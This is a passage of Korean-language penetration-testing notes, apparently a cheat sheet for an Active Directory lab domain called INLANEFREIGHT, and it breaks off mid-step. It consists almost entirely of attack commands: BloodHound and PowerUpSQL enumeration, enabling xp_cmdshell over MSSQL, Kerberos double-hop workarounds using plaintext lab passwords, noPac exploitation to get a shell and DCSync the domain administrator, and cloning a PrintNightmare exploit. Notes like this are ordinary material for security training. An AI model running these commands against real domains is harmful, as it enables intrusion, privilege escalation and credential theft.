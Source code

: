 ```

### BloodHound로 SQLAdmin 권한 사용자 확인 (화면 하단 Raw Query)
```MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2```<br/>
또는 ```Node Info 탭에서 SQL Admin Rights을 확인```

### PowerUpSQL을 사용하여 MSSQL Instances 열거
```
Import-Module .\PowerUpSQL.ps1
Get-SQLInstanceDomain
Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'
```

### mssqlclient.py 실행
```
mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
SQL> enable_xp_cmdshell
SQL> xp_cmdshell whoami /priv
```

<br/><br/>
## 5. Kerberos "Double Hop" 문제

### evil-winrm 세션에서 해결 방법 #1: PSCredential Object
```
$SecPassword = ConvertTo-SecureString '!qazXSW@' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\backupadm', $SecPassword)
get-domainuser -spn -credential $Cred | select samaccountname
klist
```

### WinRM 세션에서 해결 방법 #2: Register PSSession Configuration
```
Register-PSSessionConfiguration -Name backupadmsess -RunAsCredential inlanefreight\backupadm
Enter-PSSession -ComputerName DEV01 -Credential INLANEFREIGHT\backupadm -ConfigurationName  backupadmsess
klist
```

<br/><br/>
# AD 취약점 공격

## 1. NoPac(SamAccountName Spoofing)

### NoPac Exploit Repo 복제
```git clone https://github.com/Ridter/noPac.git```

### NoPac 스캐닝
```sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap```

### NoPac 실행 및 쉘 가져오기
```sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap```

### noPac을 사용하여 DCSync the Built-in Administrator Account
```sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator```

<br/><br/>
## 2. PrintNightmare

### 익스플로잇 복제
```git clone https://github.com/cube0x0/CVE-2021-1675.git```

### Impacket의 cube0x0 버전 설치 필요
```
pip3 uninstall impacket